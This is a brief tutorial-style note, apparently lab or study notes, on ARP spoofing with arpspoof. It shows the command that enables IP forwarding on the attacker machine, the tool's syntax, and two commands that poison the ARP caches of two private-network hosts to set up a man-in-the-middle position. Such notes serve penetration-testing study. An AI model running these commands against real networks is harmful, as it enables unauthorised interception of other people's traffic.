 #Performing ARP Spoofing with arpspoof

-Activating IP Forwarding on Attacker Machine
echo 1 > /proc/sys/net/ipv4/ip_forward

-Running arpspoof 
--Syntax
arpspoof -i <interface> -t <target_ip> <victim_ip>

--Execution
arpspoof -i eth0 -t 192.168.4.151 192.168.4.199
arpspoof -i eth0 -t 192.168.4.199 192.168.4.151